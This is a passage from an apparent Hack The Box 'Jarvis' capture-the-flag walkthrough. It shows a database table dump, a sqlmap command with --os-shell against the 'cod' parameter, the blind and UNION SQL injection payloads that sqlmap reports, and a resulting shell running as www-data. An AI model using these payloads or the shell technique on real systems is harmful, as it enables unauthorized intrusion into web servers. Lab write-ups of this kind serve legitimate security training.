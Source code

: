 	Database: hotel                                                      
	Table: room
	[7 columns]
	+---------+--------------+
	| Column  | Type         |
	+---------+--------------+
	| cod     | int(11)      |
	| descrip | varchar(400) |
	| image   | varchar(40)  |
	| mini    | varchar(400) |
	| name    | varchar(35)  |
	| price   | int(11)      |
	| star    | varchar(350) |
	+---------+--------------+
	```
	- Not useful information
4. SQLMap - Spawn an interactive shell
	```
	┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/exploit]
	└─# sqlmap -r sqli.txt -p cod --os-shell --output-dir=$(pwd)/sqlmap --batch
	
	Parameter: cod (GET)
		Type: boolean-based blind
		Title: AND boolean-based blind - WHERE or HAVING clause
		Payload: cod=1 AND 3554=3554
	
		Type: time-based blind
		Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
		Payload: cod=1 AND (SELECT 7164 FROM (SELECT(SLEEP(5)))EEJY)
	
		Type: UNION query
		Title: Generic UNION query (NULL) - 7 columns
		Payload: cod=-3228 UNION ALL SELECT NULL,NULL,CONCAT(0x71626b6a71,0x554b49484f6b664e4e484452436e707246495353424c6444447a665144427579547863494d6f5946,0x7171627a71),NULL,NULL,NULL,NULL-- -
	
	which web application language does the web server support?
	[1] ASP
	[2] ASPX
	[3] JSP
	[4] PHP (default)
	-> 4
	[20:07:10] [WARNING] unable to automatically retrieve the web server document root
	what do you want to use for writable directory?
	[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
	[2] custom location(s)
	[3] custom directory list file
	[4] brute force search
	-> 1
	os-shell> id;whoami
	do you want to retrieve the command standard output? [Y/n/a] Y
	command standard output:
	---
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	www-data
	```
5. Demo - SQLMap spawn shell
	![](vmware_k0Jrol160U.mp4)